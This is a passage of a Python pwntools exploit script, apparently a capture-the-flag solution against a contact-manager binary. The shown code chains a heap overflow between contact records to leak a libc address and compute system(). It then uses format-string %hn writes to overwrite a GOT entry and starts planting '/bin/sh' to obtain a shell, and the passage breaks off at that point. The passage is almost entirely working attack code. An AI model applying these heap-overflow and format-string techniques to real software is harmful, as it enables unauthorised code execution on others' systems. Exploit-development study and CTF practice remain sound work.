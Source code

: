 ```
hleak2 = int(hleak2, 16)
hleak3 = int(hleak3, 16)

#Edit the guy0 contact, and execute the heap overflow into guy1
target.sendline("3")
target.sendline("guy0")
target.sendline("1")
print target.recvuntil(">>>")
payload = "0"*64 + p32(0x4) + p32(0x1) + p32(hleak1 + 16) + p32(0x804b014) + p32(0x31797567) + "\x00"
target.sendline(payload)
print target.recvuntil(">>>")

#Display the contacts to get the leak
target.sendline("4")
print target.recvuntil("Length 50\n")
scanf_leak = target.recvline()
print target.recvuntil(">>>")

#Filter out the address from the leak
scanf_leak = scanf_leak.replace("Phone #:", "")[4:]
scanf_leak = hex(u64(scanf_leak[39:]))
scanf_leak = scanf_leak[3:]
scanf_leak = scanf_leak[:-6]
scanf_leak = int("0x" + scanf_leak, 16)

#Calculate the system address, and split it into the two seprate parts
sys_adr = scanf_leak - 136624
s1, s2 = hex(sys_adr)[:6], hex(sys_adr)[6:]
s2 = "0x" + s2
s1 = int(s1, 16)
s2 = int(s2, 16)

#Overflow guy2 into guy3
target.sendline("3")
target.sendline("guy2")
target.sendline("1")
print target.recvuntil(">>>")
payload = "1"*64 + p32(0x4) + p32(0x1) + p32(hleak2 + 16) + "\x16\xb0\x04\x08" + p32(0x33797567) + "\x00" 
target.send(payload)

#Change the descriptions of guy1 and guy3to the fmt string
target.sendline("3")
target.sendline("guy1")
target.sendline("2")
print target.recvuntil(">>>")
target.sendline("50")
target.sendline("%" + str(s2) + "x%1$hn")
print target.recvuntil(">>>")

target.sendline("3")
target.sendline("guy3")
target.sendline("2")
print target.recvuntil(">>>")
target.sendline("50")
target.sendline("%" + str(s1) + "x%1$hn")
#target.sendline("1234")
print target.recvuntil(">>>")

#Change the description of guy4 to /bin/sh
target.sendline("3")
target.sendline("guy4")
```